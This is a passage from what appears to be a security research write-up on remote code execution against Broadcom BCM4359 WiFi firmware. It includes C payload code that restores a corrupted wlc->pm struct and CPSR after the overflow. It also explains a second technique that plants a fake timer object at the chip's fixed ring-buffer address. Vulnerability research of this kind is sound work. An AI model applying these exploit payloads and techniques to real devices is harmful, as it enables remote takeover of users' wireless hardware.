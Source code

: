 Therefore, before any further action, our payload needs to restore the wlc->pm object to its normal condition. Since all addresses in this object are consistent for a given firmware build, we can just copy these values back into the buffer and restore the object to a healthy state.

Here’s an example for what an initial payload will look like:

unsigned char overflow_orig[] = {    
  0x00, 0x00, 0x03, 0xA4, 0x00, 0x00, 0x27, 0xA4, 
  0x00, 0x00, 0x42, 0x43, 0x5E, 0x00, 0x62, 0x32,    
  0x2F, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0xC0, 0x0B, 0xE0, 0x05, 0x0F, 0x00,    
  0x00, 0x01, 0x00, 0x00, 0x00, 0x00, 0x7A, 0x00, 
  0x00, 0x00, 0x02, 0x00, 0x00, 0x00, 0x00, 0x00,    
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x64, 0x7A, 0x1E, 0x00, 0x00, 0x00,    
  0x00, 0x00, 0xB4, 0x7A, 0x1E, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    
  0x00, 0x00, 0xC8, 0x00, 0x00, 0x00, 0xC8, 0x00, 
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    
  0x00, 0x00, 0x9C, 0x81, 0x1E, 0x00, 0x1C, 0x81, 
  0x1E, 0x00 
};

void entry(unsigned int cpsr) {    
  int i = 0;    
  unsigned int *p_restore_cpsr = (unsigned int *) 0x16010C;
  *p_restore_cpsr = (unsigned int) restore_cpsr;
  printf("Payload triggered, restoring CPSR\n");
  restore_cpsr(cpsr);
  printf("Restoring contents of wlc->pm struct\n");
  memcpy((void *) (0x1e7e02), overflow_orig, sizeof(overflow_orig));    
  return;
}
At this stage, we have achieved our first and most important mission: we have reliable, consistent RCE against the BCM chip, and our control of the system is not transient – the chip does not crash following the exploit. At this point, the only way we will lose control of the chip is if the user turns off WiFi or if the chip crashes.

THE EXPLOIT – SECOND APPROACH

As we mentioned, there is still a problem with the above approach. For each firmware build, we’ll need to determine the correct memory addresses to be used in the exploit. And while those addresses are guaranteed to be consistent for a given build, we should still look for a way to avoid the hard work of compiling address tables for each firmware version.

The main problem is that we need a predictable memory address whose contents we control, so we can overwrite the pspoll_timer pointer and redirect it to our fake timer object. The previous approach relied on the fact that the address of wlc->pm is consistent for a given firmware build. But there’s another buffer whose address we already know: the ring buffer. And in this case, there’s an added advantage: its beginning address seems to be the same across the board for a specific chip type, regardless of build or version number.

For the BCM4359, the ring buffer’s beginning address is 0x221ec0. Therefore, if we ensure a packet we control will be written exactly to the beginning of the ring buffer, we can place our fake timer object there, and our payload immediately after it. Of course, making sure that our packet is put exactly at the beginning of the buffer is a serious challenge: We may be in an area with dozens of other APs and STAs, increasing the noise level and causing us to contend with many other packets.
